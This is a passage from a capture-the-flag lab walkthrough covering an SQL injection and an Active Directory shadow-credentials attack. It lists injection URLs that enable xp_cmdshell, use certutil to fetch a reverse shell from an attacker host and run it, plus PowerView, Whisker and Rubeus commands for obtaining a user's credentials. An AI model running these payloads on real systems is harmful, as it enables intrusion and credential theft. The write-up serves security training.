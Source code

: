 Start a Netcat listener.

```
nc -nlvp 4444
```

Make 3 separate web requests:
1. Enable remote command execution.
2. Download the reverse shell.
3. Launch the reverse shell.

```
http://10.10.87.207/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --

http://10.10.87.207/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://10.13.34.103:8000/rshell_4444.exe C:\Windows\Temp\rshell_4444.exe'; --

http://10.10.87.207/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\rshell_4444.exe'; --
```

Open the file for the flag.
```
type C:\Users\Administrator\Desktop\Note.txt
```

**Q5: What is the flag you receive on the homepage after restoring the website?**

Restore the homepage with the following command:
- Overwrite when prompted.

```
copy C:\Users\Administrator\Desktop\backups\bestfestival\index.php C:\inetpub\wwwroot\index.php
```

<br>

## Day 11 - Jingle Bells, Shadow Spells 

**Q1:  What is the hash of the vulnerable user?**

Launch a PowerShell prompt

```powershell
cd Desktop
powershell -ep bypass
. .\PowerView.ps1
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights 
```

Note the first `CN=`.

```powershell
.\Whisker.exe add /target:vansprinkles
```

The output will include the Rubeus command. Add it in `.\` to run in PowerShell.

```
.\Rubeus.exe asktgt /user:vansprinkles /certificate:<OMITTED> /password:<OMITTED> /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show
```
